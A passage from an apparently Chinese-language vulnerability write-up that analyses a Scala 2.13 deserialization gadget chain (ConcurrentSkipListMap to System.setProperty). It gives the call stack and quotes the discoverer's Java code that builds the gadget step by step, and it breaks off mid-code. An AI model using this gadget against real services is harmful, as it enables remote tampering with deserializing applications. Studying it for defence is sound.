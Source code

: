 ## 4. gadget分析

前文的漏洞复现中，我们需要通过两个POC进行漏洞利用，这里学习一下该scala gadget，该构造链触发污点时的线程堆栈如下：

```
setProperty:922, System (java.lang)
$anonfun$addOne$1:53, SystemProperties (scala.sys)
apply:-1, 1717579590 (scala.sys.SystemProperties$$Lambda$986)
next:1008, Iterator$$anon$22 (scala.collection)
compare:273, Ordering$IterableOrdering (scala.math)
compare:267, Ordering$IterableOrdering (scala.math)
cpr:393, ConcurrentSkipListMap (java.util.concurrent)
readObject:1255, ConcurrentSkipListMap (java.util.concurrent)
```

简单来说就是：

ConcurrentSkipListMap.readObject -> comparator.compare ->  View$Fill.iterator().next() -> Function0 -> System.setProperty

漏洞作者给出的相关代码如下，可根据注释的 step number来观看本节内容：

```java
    // For scala version 2.13.x
    private static Object createSetSystemPropertyGadgetScala213(String key, String value) throws Exception {
        ReflectionFactory rf =
                ReflectionFactory.getReflectionFactory();

        Tuple2 prop = new scala.Tuple2<>(key, value);


        long versionUID = ObjectStreamClass.lookup(scala.Tuple2.class).getSerialVersionUID();// Should be: 142951686315914362
        System.out.println("VersionUID: " + versionUID);

        //  step1 通过序列化的方式构造lambda表达式，随后通过反序列化获取该对象
        SerializedLambda lambdaSetSystemProperty = new SerializedLambda(scala.sys.SystemProperties.class,
                "scala/Function0", "apply", "()Ljava/lang/Object;",
                MethodHandleInfo.REF_invokeStatic, "scala.sys.SystemProperties",
                "$anonfun$addOne$1", "(Lscala/Tuple2;)Ljava/lang/String;",
                "()Lscala/sys/SystemProperties;", new Object[]{prop});

        // step2 创建view,调用iterator()后触发其next()，进一步触发传名参数的表达式
        Class<?> clazzView = Class.forName("scala.collection.View$Fill");
        Constructor<?> ctorView= clazzView.getConstructor(int.class, scala.Function0.class);
        Object view = ctorView.newInstance(1, createFuncFromSerializedLambda(lambdaSetSystemProperty));

        // step3 创建comparator，其实现了java.util.Comparator接口
        Class<?> clazzOrder = Class.forName("scala.math.Ordering$IterableOrdering");
        Constructor<?> ctorOrder = rf.newConstructorForSerialization(
                // Object.class 也可以
                clazzOrder, StubClassConstructor.class.getDeclaredConstructor()
        );
        Object iterableOrdering = ctorOrder.newInstance();


        // step4 创建ConcurrentSkipListMap，存入k v，并设置comparator
        ConcurrentSkipListMap map = new ConcurrentSkipListMap((o1, o2) -> 1);

        map.put(view, 1);
        map.put(view, 2);

        Field f = map.getClass().getDeclaredField("comparator");
```